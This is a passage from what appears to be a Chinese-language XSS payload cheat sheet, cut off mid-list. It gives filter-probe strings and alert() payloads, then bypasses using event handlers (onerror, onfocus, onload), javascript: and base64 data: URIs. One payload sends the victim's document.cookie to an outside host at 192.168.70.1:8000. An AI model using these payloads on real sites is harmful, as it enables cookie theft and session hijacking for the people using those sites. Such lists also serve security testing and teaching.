 攻击者可完全控制受害者的 Shell，如执行任意命令。

------









## XSS常用payload

### 检查过滤(暂定)

```
'"> <``()oN sCrIpt sRc <a hReF &#106;
```

### 基础语句

```javascript
<script>alert('XSS')</script>
<script>new Image().src='http://192.168.70.1:8000/?c='+document.cookie;</script>
```

### img/on..(绕过script)

```javascript
<img src=x onerror=alert('XSS')//
<iframe src="javascript:alert(1)"></iframe>
<body onload="alert('XSS')">
<input value="1" autofocus onfocus=alert(1) x="">
<svg onmousemove="alert(1)">
```

### onfocus可以绕过html实体化<>

```javascript
'onfocus=javascript:alert()'
"onfocus=javascript:alert()"
```

### a href标签法+伪协议

```javascript
"> <a href=javascript:alert()>xxx</a> <"
```

### data伪协议

```javascript
"> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="> <"
```

### 利用href自动Unicode解码
